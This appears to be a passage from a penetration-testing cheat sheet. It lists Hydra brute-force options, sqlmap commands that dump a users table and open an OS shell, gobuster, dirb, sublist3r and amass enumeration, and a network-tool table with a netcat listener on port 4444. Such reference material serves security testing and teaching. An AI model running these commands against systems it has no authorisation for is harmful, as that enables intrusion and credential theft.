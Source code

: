 ### Common Hydra Options:
- `-t` - Number of parallel tasks (default: 16)
- `-f` - Exit after first found password
- `-v` - Verbose mode
- `-V` - Show login+pass combination
- `-e` - Additional checks (n=null, s=login-as-pass, r=reverse-login)

## Web Application Testing

### SQL Injection

# SQLmap examples
sqlmap -u "http://site.com/page.php?id=1" --dbs
sqlmap -u "http://site.com/page.php?id=1" -D database --tables
sqlmap -u "http://site.com/page.php?id=1" -D database -T users --dump
sqlmap -u "http://site.com/page.php?id=1" --os-shell

# Gobuster examples
gobuster dir -u http://site.com -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://site.com -w wordlist.txt -x php,html,txt
gobuster dns -d domain.com -w subdomains.txt

#Dirb examples
dirb http://site.com /usr/share/dirb/wordlists/common.txt
dirb http://site.com -X .php,.html

# Sublist3r
sublist3r -d domain.com

# Amass
amass enum -d domain.com
amass enum -brute -d domain.com -w wordlist.txt

## Network Analysis Tools

| Command | Description | Examples |
|---------|-------------|----------|
| `tcpdump` | Network packet analyzer | `tcpdump -i eth0`, `tcpdump port 80` |
| `wireshark` | GUI packet analyzer | `wireshark` |
| `tshark` | CLI packet analyzer | `tshark -i eth0 -f "tcp port 80"` |
| `netcat` | Network Swiss army knife | `nc -lvnp 4444`, `nc 192.168.1.1 80` |
| `socat` | Multipurpose relay | `socat TCP-LISTEN:4444 STDOUT` |
| `curl` | HTTP client | `curl -X POST http://site.com -d "data"` |
| `wget` | File downloader | `wget http://site.com/file` |
